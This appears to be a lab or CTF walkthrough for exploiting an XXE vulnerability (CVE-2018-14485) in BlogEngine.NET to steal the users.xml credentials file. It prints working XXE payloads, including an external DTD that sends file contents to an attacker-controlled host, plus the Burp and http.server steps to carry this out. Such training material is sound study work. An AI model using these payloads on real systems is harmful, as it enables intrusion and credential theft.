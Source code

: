 From BlogEngine.NET [documentation](https://blogengine.io/docs/how-do-i-reset-blogengine-admin-password/) we know that the `/app_data/users.xml` file contains the user credentials.

From enumerating the server using the path traversal vulnerability we know that the file is located at `C:\inetpub\wwwroot\blog\App_data\users.xml`

Now using a XXE vulnerability we can read the contents of the file.

## [**CVE-ID: 2018–14485**](https://nvd.nist.gov/vuln/detail/CVE-2018-14485) BlogEngine.NET 3.3 allows XXE attacks via the POST body to metaweblog.axd.

More info https://www.exploit-db.com/exploits/47014.

### Look for an exploit.

#Attacking_machine 
```
searchsploit Blogengine
```

![[Screenshot from 2025-09-15 10-47-30.png]]

```
cat /usr/share/exploitdb/exploits/windows/webapps/46106.txt
```

![[Screenshot from 2025-09-15 10-51-17.png]]

This XML is a classic **XXE (XML External Entity)** payload. I’ll explain exactly what it does, why it’s dangerous, how to detect it, and (most importantly) how to fix/mitigate it safely.

```
<?xml version="1.0"?>
<!DOCTYPE ns [
  <!ELEMENT ns ANY>
  <!ENTITY lfi SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
]>
<ns>&lfi;</ns>
```

- The Url is the path you have to browse. (In our case `http://<MACHINE IP>/blog/metaweblog.axd`)
- The DOCTYPE declares an external entity named `lfi` that points to a local file: `file:///C:/Windows/System32/drivers/etc/hosts`.
- When an XML parser **resolves external entities** and expands `&lfi;`, the contents of that file are substituted into the XML document.
- If an application parses the XML and returns/stores the parsed content (or sends it somewhere), an attacker can **exfiltrate local files** (local file inclusion), or trigger SSRF/remote requests if the SYSTEM URL points to `http(s)://` or `ftp://`.


### Create a file called `ed.dtd`

#Attacking_machine 
```
<!ENTITY % p1 SYSTEM "file:///C:/inetpub/wwwroot/blog/App_Data/users.xml"> 
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://<ATTACKING MACHINE IP>/EX?%p1;'>">
%p2;
```

- `%p1` is a **parameter entity** whose value is the local file `C:/inetpub/wwroot/blog/App_Data/users.xml`.
    
- `%p2` is another parameter entity whose value _contains_ a definition for a general entity `e1` whose SYSTEM identifier is an `http://` URL pointing at an attacker-controlled host. That URL includes the string `%p1;` — when expanded later, `%p1;` becomes the contents (or a representation) of the local file.
    
- The final `%p2;` expands `%p2`, which defines `e1` with the remote URL. Depending on the parser and how/when entities are resolved, the parser may attempt to fetch that remote URL — causing the local file contents to be sent to the attacker (via the URL or as part of an SMB/HTTP callback). This is a classic **out-of-band (OOB) file exfiltration** pattern using parameter entities and nested entity expansion.

### Run python http.server

Use port 445 because a Firewall blocks other ports.

#Attacking_machine 
```
python3 -m http.server 445
```

### Burp Suite

- Intercept the request `http://<MACHINE IP>/blog/metaweblog.axd`, using BurpSuite.
- Send the request to `Repeater`.
- Add the following code to the request:
```
<?xml version="1.0"?>  
<!DOCTYPE foo SYSTEM "http://<ATTACKING MACHINE IP>:445/ed.dtd">  
<foo>&e1;</foo>
```
![[Screenshot from 2025-09-15 12-34-24.png]]

- Send the request.
- Show the result on python3 terminal.

![[Screenshot from 2025-09-15 12-36-28.png]]

**Next step:** [[Decoding the URL and the users' hashes]]
